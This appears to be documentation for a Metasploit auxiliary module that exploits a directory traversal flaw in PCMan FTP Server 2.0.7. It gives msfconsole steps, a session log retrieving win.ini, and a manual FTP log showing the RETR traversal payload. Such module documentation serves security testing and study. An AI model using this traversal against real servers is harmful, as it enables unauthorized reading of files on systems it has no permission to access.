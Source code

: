 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in PCMan FTP Server 2.0.7.
This vulnerability allows an attacker to download arbitrary files from the server by crafting a `RETR` command that includes file system traversal strings such as `..//`

Linked to software download [Exploit-DB](https://www.exploit-db.com/apps/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/pcman_ftp_traversal`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

### PCMan FTP Server 2.0.7 on Windows 7 (X64)

  ```
  msf > use modules/auxiliary/scanner/ftp/pcman_ftp_traversal
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > show options
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set RHOST 1.1.1.1
    rhost => 1.1.1.1
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set PATH WINDOWS\\win.ini
    PATH => WINDOWS\win.ini
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > run    
    [+] 192.168.2.252:21      - Stored WINDOWS\win.ini to /root/.msf4/loot/20191120201523_default_1.1.1.1_pcman.ftp.data_069450.ini
    [*] 192.168.2.252:21      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

### Manual Exploitation

  ```
  2019/11/20 [12:46] (00588) 1.1.1.2> User connecting from 1.1.1.2

  2019/11/20 [12:46] (00588) 1.1.1.2> USER anonymous
  2019/11/20 [12:46] (00588) Anonymous> 331 User name okay, need password.

  2019/11/20 [12:46] (00588) Anonymous> PASS *****
  2019/11/20 [12:46] (00588) Anonymous> 230 User logged in

  2019/11/20 [12:46] (00588) Anonymous> PASV
  2019/11/20 [12:46] (00588) Anonymous> 227 Entering Passive Mode (1.1.1.1,8,1)

  2019/11/20 [12:46] (00588) Anonymous> RETR ..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//WINDOWS\win.ini
  2019/11/20 [12:46] (00588) Anonymous> 150 File status okay; Open data connection.

  2019/11/20 [12:46] (00588) Anonymous> 226 Data Sent okay.

  2019/11/20 [12:46] (00588) Anonymous> User Disconnected.
  ```
